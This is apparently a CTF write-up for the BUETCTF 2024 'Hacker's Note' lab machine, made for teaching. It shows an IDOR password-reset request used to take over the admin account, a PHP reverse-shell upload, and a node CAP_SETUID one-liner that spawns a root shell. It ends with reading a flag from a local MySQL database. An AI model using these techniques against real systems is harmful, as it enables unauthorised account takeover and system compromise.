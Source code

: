 # Hacker's Note - BUETCTF24 writeup by ic3b3rg
This was one of the featured boot2root problem in BUETCTF 2024. I hope you find this writeup useful.
## Nmap scan
Nothing of interest here. You will just see an open port 80 and 22.

## Directory enumeration with Gobuster
```
gobuster dir -u "http://$ip/" -w /usr/share/wordlists/dirb/common.txt
```
It reveals three interesting directories ```/api```, ```/config``` and ```/upload```. All these Addresses have directory listings. This can be vulnerable in the long run.
## Flag 1 - Gaining Admin Access on the website
### Credential Leak
In "Contact-Us" page we will find the email of the admin.
```admin@hackersnote.com```
We can also confirm it when creating a account with this email, we get a reponse saying that an account with this email had been created.
### Password Reset misconfiguration
Let's create an account with any credentials. Log into the account and go to "Profile Settings" and try to reset our password. 
Enter the fields and tap the button "Reset Password" and intercept the request with burpSuite.
The request looks something like this.
```
POST /api/change_pass.php HTTP/1.1
<-- Not so intersting data -->
-----------------------------190845207831495830682477583225
Content-Disposition: form-data; name="userId"

1055     <--vulnerable
-----------------------------190845207831495830682477583225
Content-Disposition: form-data; name="newPassword"

test1
-----------------------------190845207831495830682477583225
Content-Disposition: form-data; name="confirmPassword"

test1
-----------------------------190845207831495830682477583225--

```
We can change the UserId from 1055 to 1001 and it will change the admin's password.

Lets log into admin's account and go to the admin panel. There will be our first flag.

## Flag 2 - Gaining Access to the System with Dev's Account
### Insufficient Sanitization of Uploaded Files
We can add a book and upload a php reverse shell. Save the book and access it on uploads.

The URL should be - 
```http://$ip/upload/<--php revshell filename-->```

Before that you should set up a listener with the correct port configured on the php revshell.

We should have a shell now.
Make sure to get a stable shell using 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
### Obtaining Password via Stegnography
Lets go to ```/home/or3k1/``` and run ```ls -lah```
We see the folder called ```.S3cr3t```.
We have the ```user.txt``` but can't open it. This suggests we have to gain access to or3k1 user.

```/home/or3k1/images/Password.jpg``` seems interesting.
But we can't see the image directly.
For this, use 
```
xxd -p Password.jpg
```
and on cyberchef, use ```From Hex``` and then the ```Render Image``` filter.
It is a QR Code which has the following data.
```
Encryption: WPA
Network Name: Or3k1's_H4ck_Z0n3
Password: MySw33tDr34mC0m3sT0n1gh7
Hide Password: false
```
Note that this is not the original password of the user 'or3k1'.
But if you run ```steghide extract -sf Password.jpg``` and use it as the passphrase, it will give the following error,
```
steghide: could not open the file "my_pass.txt".
``` 
Because we dont have write permissions on this directory.
So we can copy it to ```/tmp``` and then do the same thing.
The file contains the password for or3k1.
Then, ```su or3k1``` and the user flag is in ```/home/or3k1/.S3cr3t/user.txt```
## Flag 3 - Escalating Privilege
### Abusing ```CAP_SETUID``` binaries
  
We can run [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh) to see that this vulnerability exists.

According to [gtfobins](https://gtfobins.github.io/gtfobins/node/),
We can run this command to get a root shell.
```
node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
The flag is in ```/root/root.txt```

## Flag 4 - Bonus Flag
Lets see what sockets are available on the machine by using, ```ss -tulpn```
```
Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port                                                                                  
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*      users:(("systemd-resolve",pid=669,fd=12))                                      
udp   UNCONN  0       0           10.10.153.37%eth0:68            0.0.0.0:*      users:(("systemd-network",pid=652,fd=15))                                      
tcp   LISTEN  0       80                  127.0.0.1:3306          0.0.0.0:*      users:(("mysqld",pid=862,fd=31))                                               
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*      users:(("systemd-resolve",pid=669,fd=13))                                      
tcp   LISTEN  0       128                   0.0.0.0:22            0.0.0.0:*      users:(("sshd",pid=823,fd=3))                                                  
tcp   LISTEN  0       128                         *:80                  *:*      users:(("apache2",pid=1034,fd=4),("apache2",pid=948,fd=4),("apache2",pid=947,fd=4),("apache2",pid=943,fd=4),("apache2",pid=902,fd=4),("apache2",pid=885,fd=4),("apache2",pid=884,fd=4),("apache2",pid=883,fd=4),("apache2",pid=880,fd=4),("apache2",pid=879,fd=4),("apache2",pid=865,fd=4))
tcp   LISTEN  0       128                      [::]:22               [::]:*      users:(("sshd",pid=823,fd=4))
```
```mysql``` service is running on port 3306, which is interesting.
Lets run ```mysql```. Then run following commands to get the flag.
```
show database;
use hackersnote;
show tables;
select * from Secret;
```
And then we will get the flag.